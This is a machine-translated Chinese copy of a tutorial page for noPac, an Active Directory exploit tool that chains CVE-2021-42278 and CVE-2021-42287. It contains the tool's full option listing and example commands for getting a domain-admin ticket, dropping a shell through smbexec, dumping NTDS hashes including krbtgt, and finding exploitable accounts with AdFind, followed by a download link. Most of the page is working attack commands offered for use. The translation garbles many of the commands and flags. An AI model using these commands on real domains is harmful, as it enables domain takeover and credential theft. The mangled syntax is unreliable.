

# noPac:利用 CVE-2021-42278 和 CVE-2021-42287 来冒充来自标准域用户的 DA

> 原文：<https://kalilinuxtutorials.com/nopac/>

.png)

**noPac** ，利用 CVE-2021-42278 和 CVE-2021-42287 冒充标准域用户的 DA。

## 使用

**山姆管理员 CVE-2021-42278 + CVE-2021-42287 链
位置参数:
【域/】用户名[:密码]
用于向 DC 认证的账户。
可选参数:
-h，–帮助显示此帮助消息并退出
–模拟模拟
将被模拟(通过 S4U2Self)以查询 ST 的目标用户名。请记住，只有当此脚本中提供的身份被允许委派给指定的 SPN
-Domain-NetBIOS NetBIOS name
Domain NetBIOS name 时，此操作才有效。如果 DC 有多个域，则需要此项。
-target-name NEWNAME 目标计算机名，如果没有指定，将随机生成。
-new-pass 密码添加新的计算机密码，如果没有指定，将随机生成。
-旧密码目标计算机密码，如果您知道您用-target-name 输入的目标的密码，请使用。
-old-hash lm hash:n hash
目标计算机哈希，如果您知道使用-target-name 输入的目标的哈希，请使用。
-debug 打开调试输出
-ts 为每个日志输出添加时间戳
-shell 通过 smbexec 丢弃一个 shell
-no-add 强制更改目标计算机的密码。
-创建子账户当前账户有创建子账户的权限。
-Dump Dump Hashs via secrets Dump
-Use-ldap 使用 LDAP 代替 LDAPS
认证:
-hashes lm hash:n hash
NTLM 哈希，格式为 lm hash:n hash
-no-pass 不要询问密码(对-k 有用)
-k 使用 Kerberos 认证。根据帐户参数从 ccache 文件(KRB5CCNAME)中获取凭据。如果找不到有效的凭证，它将使用命令行中指定的凭证
-aesKey 十六进制密钥用于 Kerberos 身份验证的 AES 密钥(128 或 256 位)
-DC-主机主机名要使用的域控制器的主机名。如果忽略，将使用 account 参数中指定的域部分(FQDN)
-DC-ip IP 要使用的域控制器的 IP。如果无法转换 FQDN，则非常有用。将使用帐户参数中指定的模式
执行选项:
-port[目标端口]
连接到 SMB 服务器的目标端口
-mode {SERVER，SHARE}要使用的模式(默认共享，服务器需要 root！)
-share SHARE 将从其中抓取输出的共享(默认 ADMIN$)
-shell-type {cmd，powershell}
为半交互式 shell 选择一个命令处理器
-codec codec 从目标的输出中设置所使用的编码(CODEC)(默认为“GBK”)。
-service-name service _ name
用于触发有效负载
转储选项的服务名称:
-just-dc-user USERNAME
仅提取 NTDS。指定用户的 DIT 数据。仅适用于 DRSUAPI 方法。暗示也-仅-直流开关
-仅-直流提取 NTDS。DIT 数据(NTLM 哈希和 Kerberos 密钥)
-just-dc-ntlm 只提取 NTDS。DIT 数据(仅 NTLM 哈希)
-pwd-last-set 显示每个 NTDS 的 pwdLastSet 属性。DIT 帐户。不适用于-输出文件数据
-用户状态显示用户是否被禁用
-历史转储密码历史，以及 LSA 机密 old val
-resume file resume file
恢复 NTDS 的恢复文件名。DIT 会话转储(仅适用于 DRSUAPI 方法)。此文件还将用于持续更新会话的状态
-use-vss 使用 vss 方法代替默认 DRSUAPI
-exec-method[{ smbexec，wmiexec，mmcexec}]
在目标位置使用远程 exec 方法(仅当使用-use-vss 时)。默认值:smbexec**

注意:如果未指定-host-name，该工具将自动获取域控制主机名，请选择由-dc-ip 指定的主机名。如果未指定–impersonate，该工具将随机选择一个 doamin 管理员进行攻击。默认情况下使用 ldaps，如果出现 ssl 错误，请尝试添加-使用-ldap。

## GetST

**python nop AC . py cgdomain . com/sanfen:' 1 qaz @ wsx '-DC-IP 10 . 211 . 55 . 203**

## 自动获取外壳

**python no PAC . py cgdomain.com/sanfeng:'1qaz@WSX'-DC-IP 10 . 211 . 55 . 203-DC-host lab 2012-shell-模拟管理员**

## 转储哈希

**python no PAC . py cgdomain.com/sanfeng:'1qaz@WSX'-DC-IP 10 . 211 . 55 . 203-DC-host lab 2012–模拟管理员-转储
python no PAC . py cgdomain.com/sanfeng:'1qaz@WSX'-DC-IP 10 . 211 . 55 . 203-DC-host lab 2012–模拟管理员-转储-just-DC-user cgdomain/krbtgt**

## 扫描仪

**python scanner . py cgdomain.com/sanfeng:'1qaz@WSX'-DC-IP 10 . 211 . 55 . 203**

## MAQ = 0

### 方法 1

找到当前用户可以修改的计算机。

**AdFind.exe-sc getacls-sddl filter；；”[WRT 道具]”；；电脑；域\用户-静音**

### 方法 2

找到 CreateChild 帐户，并使用该帐户进行剥削。

**AdFind.exe-sc getacls-sddl filter；；"[CR 子代]"；；电脑；-重新静音**

Exp:添加`**-create-child**`

**python no PAC . py cgdomain.com/venus:'1qaz@WSX'-DC-IP 10 . 211 . 55 . 200-DC-host DC 2008–模拟管理员-创建-子级**

[**Download**](https://github.com/Ridter/noPac)